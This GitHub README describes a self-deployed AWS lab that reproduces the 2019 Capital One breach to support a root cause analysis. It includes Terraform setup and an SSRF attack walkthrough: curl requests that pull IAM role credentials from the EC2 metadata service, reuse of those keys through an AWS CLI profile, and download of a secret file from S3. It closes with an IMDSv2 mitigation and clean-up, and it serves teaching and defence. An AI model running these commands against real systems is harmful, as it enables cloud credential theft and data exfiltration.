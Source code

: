 # CapitalOne-Breach-Simulation-Lab
Code and artifacts for the Adversary Emulation phase of a Root Cause Analysis of the 2019 Capital One breach report.

Based on the lab by Shay Raize Meshulam: [shayrm/CapitalOne-SSRF-demo](https://github.com/shayrm/CapitalOne-SSRF-demo)

# Purpose

This lab is designed for educational purposes to validate my CAPITAL One breach 2019 root cause analysis report to show how SSRF vulnerabilities can be exploited in a cloud environment, and then the danger of overly permissive IAM roles, how compromised EC2 metadata can lead to data breach from S3, and the effectiveness of IMDSv2 for mitigation. The lab was followed based on the GitHub repository that Say Raize Meshulam published as guidance, and modifications were made from the original main.tf file and the readme file addressed errors from the previous instruction.

#Prerequisites

AWS Account(Free tier is fine), EC2 Key Pair, AWS CLI, Terraform, Main.tf file, Local secret CSV file.

#Setup Instructions
1. Download main.tf and top_secret_file.csv into the local directory.
2. Modify main.tf. Please refer to the comments in the file and ensure your configuration is valid—region, key_pair, ubuntu-ami, bucket_name need to be changed.
3. Initialize Terraform by opening the terminal.tf file and local secret CSV file are installed and run:

terraform init

4. Validate Configuration: 

```bash
terraform fmt
terraform validate
terraform plan
```

5. Deploy the Lab:

terraform apply

Check that public_ip and instance_id are displayed correctly in the terminal.

Note the public_ip and instance_id from the output.

# Instructions for running  Attack Simulation

1. Check Server Response:

```bash
curl http://<public_ip>/
```
Replace <public_ip> with your public IP that you previously obtained on the transform apply stage.

2. Exploit SSRF to List Metadata:
```bash
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)"
```

3. Navigate to Credentials:
```bash
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/](http://169.254.169.254/latest/meta-data/iam/)"
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"
```
The output will be the role name: c-demo-role


4. Steal Credentials: 
```bash
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)c-demo-role/"
```

The output will be a JSON object containing AccessKeyId, SecretAccessKey, and Token.


5. Configure Attacker Profile:
```bash
aws configure set aws_session_token [YOUR_TOKEN] --profile c-demo

aws configure --profile c-demo
```
Enter stolen AccessKeyId, SecretAccessKey, region (e.g., us-east-2), format (json)

Copy the credentials from the JSON output and leave the token blank at the aws configure --profile c-demo stage, you already entered it.



6. Verify Access dnd List Buckets:
```bash
aws s3 ls --profile c-demo
```

You should be able to see your unique bucket name

7. Exfiltrate Data: 
```bash
aws s3 ls s3://<bucket_name> --profile c-demo
aws s3 cp s3://<bucket_name>/top_secret_file.csv ./ --profile c-demo
```
(Replace <bucket_name> with your unique bucket name)

8. Verify that it is downloading to the correct directory and check the content inside
```bash
ls
cat top_secret_file
 ```

#Mitigation

Enforce IMDSv2:
```bash
aws ec2 modify-instance-metadata-options --instance-id "<instance_id>" --http-tokens required --http-endpoint enabled
```
Use instance_id with the ID from the terraform apply output


Verify Mitigation: 
```bash
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"
```
It should fail when you try to attempt it again.

#Clean Up

To avoid unexpected AWS charges, destroy all created resources after you finish your activity:
```bash
terraform destroy
```

